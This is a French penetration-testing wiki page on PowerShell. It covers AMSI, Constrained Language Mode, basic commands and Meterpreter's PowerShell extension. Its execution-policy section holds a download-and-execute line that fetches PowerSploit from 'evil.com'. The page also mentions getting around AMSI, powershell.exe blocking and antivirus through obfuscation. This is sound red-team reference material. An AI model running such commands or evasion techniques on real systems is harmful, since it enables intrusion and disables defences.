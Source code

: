```yaml
---
title: Powershell
permalink: /Powershell/
---
```


Généralités
-----------

- powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme **Not Powershell** (https://github.com/Ben0xA/nps) ou **PSAttack** (https://github.com/jaredhaight/PSAttack) Il est ainsi possible de contourner certaines restrictions avec ceci (e.g. blocage de powershell.exe ou Constrained Powershell Enforced)
- Il est possible d'activer le logging pour Powershell. 
- (Powershell v5): Constrained Powershell Enforced (lié à DeviceGuard) permet de bloquer certaines fonctionnalités de powershell (notamment celles utilisées par Invoke-Mimikatz). Cependant ceci est limité à **powershell.exe**.
- (Windows 10): [Anti malware Scan Interface](https://msdn.microsoft.com/fr-fr/library/windows/desktop/dn889587(v=vs.85).aspx) fournit une interface pour les antivirus qui permet notamment de faciliter l'analyse AV en mémoire.
   - Il existe des méthodes pour bypasser AMSI.
   - La plupart des AV ne supportent pas AMSI.
- (Windows 10): [Just Enough Administration](/Just_Enough_Administration/)


Commandes
---------

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Meterpreter
-------------------

Il est possible d'utiliser powershell à partir d'un meterpreter:
```
load powershell
```

Voir [Meterpreter New Windows PowerShell Extension](http://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension)

Execution Policy
----------------

Il est possible de contourner l'execution policy ("\[...\] running scripts is disabled on this system."):

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

-   Si powershell.exe est bloqué: il est possible d'utiliser **Not Powershell** (https://github.com/Ben0xA/nps)

Il est très important de comprendre que l'execution policy n'est pas un mécanisme de sécurité ! (Microsoft le dit lui-même)

Obfuscation
-----------
Il est possible d'obfusquer du code powershell pour contourner certains antivirus qui bloquent powersploit & cie. L'outil [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) permet de faire ceci facilement. Il est cependant possible de bloquer les codes obfusqués (une analyse statistique permet de détecter les codes non légitimes).


Resources
---------

-  [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-  [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-  [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)
-  [PowerShell Security: Defending the Enterprise from the Latest Attack Platform](https://www.youtube.com/watch?v=_8yBjg7bRLo)
